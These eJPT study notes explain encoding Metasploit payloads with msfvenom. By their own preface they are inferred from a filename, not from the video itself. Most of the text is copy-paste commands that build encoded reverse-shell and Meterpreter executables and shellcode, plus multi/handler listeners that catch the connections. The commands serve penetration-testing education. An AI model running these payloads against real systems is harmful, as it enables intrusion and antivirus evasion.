 # 03 - Encoding Payloads With Msfvenom (eJPT Study Notes)

Note: No transcript was provided. The following is a careful, conservative summary inferred from the filename and the course folder “01-Payloads.” Commands are oriented to authorized lab environments only.

## What the video covers (Introduction / big picture)
- Concept of encoding Metasploit payloads with msfvenom to:
  - Avoid bad characters when embedding shellcode (e.g., in exploits).
  - Slightly obfuscate payloads and sometimes reduce simplistic signature hits.
- Difference between encoding vs. encryption/obfuscation:
  - Encoding transforms bytes (e.g., polymorphic encoders like x86/shikata_ga_nai); it is not encryption and is not a reliable AV bypass.
- Key msfvenom switches for encoding:
  - -e (encoder), -i (iterations), -b (bad characters), -a (arch), --platform, -f (format), -o (output).
- How to list encoders and formats, pick an appropriate encoder for the architecture, and test the result in a lab with multi/handler.

## Flow (ordered)
1. Identify target platform and architecture (Windows/Linux, x86/x64).
2. List available encoders and formats in msfvenom.
3. Build a baseline (unencoded) payload for comparison.
4. Select an encoder compatible with the payload architecture.
5. Apply encoding:
   - Set encoder (-e), iterations (-i), and bad characters (-b) if needed.
6. Choose output format (-f) and save to file (-o).
7. Start a matching Metasploit multi/handler to receive the connection (lab).
8. Test, compare behavior and detectability to the baseline.
9. Iterate conservatively; too much encoding can break payloads or raise heuristics.

## Tools highlighted
- msfvenom (Metasploit Framework) for generating and encoding payloads.
- msfconsole exploit/multi/handler for catching sessions in a lab.
- file, hexdump/xxd, and strings for quick sanity checks of generated artifacts.

## Typical command walkthrough (detailed, copy-paste friendly)

Lab-only reminder: Replace placeholders like <LHOST> and paths with your lab values.

- Discover your lab IP (example):
```bash
ip addr show
```

- List encoders, payloads, and formats:
```bash
msfvenom -l encoders
msfvenom -l payloads
msfvenom -l formats
# Narrow by arch/platform
msfvenom -l encoders | grep -i x86
msfvenom -l payloads  | grep -i windows
```

- Inspect payload-specific options before building:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --payload-options
```

- Baseline (unencoded) Windows staged Meterpreter (x86) EXE:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=4444 \
  -a x86 --platform windows \
  -f exe -o win_meter_rev_tcp.exe
```

- Encoded Windows staged Meterpreter using x86/shikata_ga_nai (5 iterations):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=4444 \
  -a x86 --platform windows \
  -e x86/shikata_ga_nai -i 5 \
  -f exe -o win_meter_rev_tcp_shikata.exe
```

- Generate shellcode (C array) for use in exploits, avoiding common bad chars:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=4444 \
  -a x86 --platform windows \
  -e x86/alpha_mixed -i 3 \
  -b '\x00\x0a\x0d' \
  -f c -o shellcode.c
```

- Linux payload example (x86) encoded (note: encoders are arch-specific):
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=4444 \
  -a x86 --platform linux \
  -e x86/shikata_ga_nai -i 3 \
  -f elf -o lin_shell_rev_tcp.elf
```

- Quick sanity checks on generated files:
```bash
file win_meter_rev_tcp_shikata.exe
strings -n 8 win_meter_rev_tcp_shikata.exe | head
hexdump -C shellcode.c | head
```

- Start a matching multi/handler in Metasploit (for staged Windows Meterpreter):
```bash
msfconsole -qx "use exploit/multi/handler; \
set payload windows/meterpreter/reverse_tcp; \
set LHOST <LHOST>; set LPORT 4444; \
set ExitOnSession false; exploit -j"
```

- If you generated a stageless payload instead (e.g., windows/meterpreter_reverse_tcp), ensure the handler uses the exact same payload:
```bash
msfconsole -qx "use exploit/multi/handler; \
set payload windows/meterpreter_reverse_tcp; \
set LHOST <LHOST>; set LPORT 4444; \
set ExitOnSession false; exploit -j"
```

Notes:
- x86/shikata_ga_nai works only for x86 payloads. x64 encoders are limited; encoding benefits are generally less pronounced on x64.
- Too many iterations (-i) can make payloads unstable or overly suspicious; start low (1–3).

## Practical tips
- Encoding is not encryption and not a silver bullet for AV/EDR. Use it primarily for bad-character avoidance and minor polymorphism.
- Match the encoder to the payload architecture (x86 vs x64).
- Keep encoding iterations low; test stability after each change.
- Use -b to exclude bad characters when embedding shellcode in exploit buffers.
- Prefer stageless payloads in some scenarios to reduce network signatures, but be consistent with the handler.
- Compare encoded vs unencoded behavior and detection in a controlled lab to understand trade-offs.
- Document exact flags/encoders/iterations for reproducibility.

## Minimal cheat sheet (one-screen flow)
- List options:
```bash
msfvenom -l encoders
msfvenom -l payloads
msfvenom -l formats
```
- Check payload options:
```bash
msfvenom -p <payload> --payload-options
```
- Build baseline:
```bash
msfvenom -p <payload> LHOST=<LHOST> LPORT=<LPORT> -a <arch> --platform <plat> -f <fmt> -o out.bin
```
- Add encoder and iterations (plus bad chars if needed):
```bash
msfvenom -p <payload> LHOST=<LHOST> LPORT=<LPORT> \
  -a <arch> --platform <plat> \
  -e <encoder> -i <N> -b '<badchars>' \
  -f <fmt> -o out_encoded.bin
```
- Handler (must match payload exactly):
```bash
msfconsole -qx "use exploit/multi/handler; set payload <payload>; set LHOST <LHOST>; set LPORT <LPORT>; set ExitOnSession false; exploit -j"
```

## Summary
- The video demonstrates how to encode Metasploit payloads with msfvenom to avoid bad characters and add basic polymorphism.
- Core flags: -e (encoder), -i (iterations), -b (bad chars), -a/--platform (arch/platform), -f (format), -o (output).
- x86/shikata_ga_nai is a common polymorphic encoder for x86 payloads; x64 options are more limited.
- Encoding is not a reliable AV/EDR bypass; treat it as a tooling technique and test carefully in a lab with a properly configured multi/handler.